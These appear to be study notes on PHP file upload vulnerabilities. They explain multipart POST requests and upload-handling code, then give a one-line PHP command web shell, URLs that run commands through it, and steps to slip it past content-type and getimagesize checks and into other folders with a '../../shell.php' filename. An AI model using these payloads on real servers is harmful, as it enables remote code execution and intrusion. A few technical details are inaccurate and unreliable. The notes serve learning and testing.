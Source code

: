 **Post Request To Upload a File**

Content-Type: multipart/form-data

- Boundary: how the upload is split up into it's various components.
- WebKitFormBoundary: `IMAGE/png`
- Filename attribute: name of the file you're trying to upload.
- Name: taken from the html form. Used by the browser.
- Data: actual bytes of the file.
- The boundary usual includes extra data at the end of the file, in this case it would be the `submit` and `level` of the POST request.

_If you have a server that is missing a web-page PNG, and it has an upload feature, you might be able to upload a malicious file with the same name and get the server to execute the code while trying to display it on the web=page._

**Reading PHP Code** 

PHP code to check the boundary:

```php
<?php

if (!isset($_POST['submit']) || !isset ($_POST['level1'])) {
	echo "<p> Request is not valid: </p>";
	exit()
}
```

- Checks to see if the submit value, and level1 is in the post request. If it isn't set it will echo the error `Request is not valid` at the the user.

PHP will save a file with a temporary name and then after it will decide what to do with it. This prevents an attacker from being able to easily guess what the file is called.

What does it save?
- Name -> string(5) "hi.png"
- Full Path -> string(5) "hi.png"
- Type -> string(9) "image/png"
- Tmp Name -> string(10) "/tmp/zlxqm"
- Error -> int(0)
- Size -> int(129481)

The server shouldn't show any of these details.

What is the basename?

`www.example.com/content/www/index.html`

In the above example the basename would be index.html.

PATHINFO_EXTENSION?

- Extracts the extension from the name: `.html` or `.png`
- Used to create a new string for `target_path`

Target_Path

- Writes the file to the server

Move_FIle

- Moves file saved in `tmp` to the target_path.
- Uses internal php function `move_upload_file`
- Move current path to target path.

Header

- Redirect to home page.

---

Simple PHP CMD shell:

```php
<?php system($_REQUEST['cmd']); ?>
```

```php
<?php system($_GET['cmd']); ?>
```

Navigate to uploaded file:

`www.example.com/uploads/myfile.php`

How to use:

```php
www.example.com/uploads/myfile.php?cmd=whoami
```

If you have control of the `filename` in the POST request, you can upload a php file directly to the server giving you RCE.

1. Control of DATA
2. Control of extension
3. Can you access the file? Does the server expose information in the response that provides the upload location.

Changing content type

`Content-Type: application/x-php`

- You can modify the request in burp proxy to change the request to whatever the application accepts:

`Content-Type: image/png`

If the php is suing get image size function:

`getimagesize`

- Tries to read the size of the file, and is it can't it will return an error.

Issues: 
1. You can hide the php shell inside a PNG file.

PNG files, in the first few bytes, include a lot of data, like the width and height, and other information about the file. An attacker would want to place the PHP shell further down in the data for it to be successful. 

Exploitation of getimagesize:

1. Upload the file, proxy the request, and then add the PHP shell to the image data.
2. Change the filename to php in the web form boundary.
3. Upload the file.
4. Navigate to the file and use:

```php
www.example.com/myfile.php?cmd=whoami
```

The server might be set up to deny php code to run on a specific folder, in that case you would need to use path traversal to try and put the file into a location that does run our PHP shell.

For example:

`filename="../../shell.php"`

- You would also have to use path traversal to access the file after it's been uploaded. 

`www.example.com/profile/avatar/../../shell.php?cmd=whoami`

---

1. What type of file can i upload?
2. What control do i have? 
3. Can i access the uploaded file?
4. Do i know the full path?
5. Can i control the file extension










 




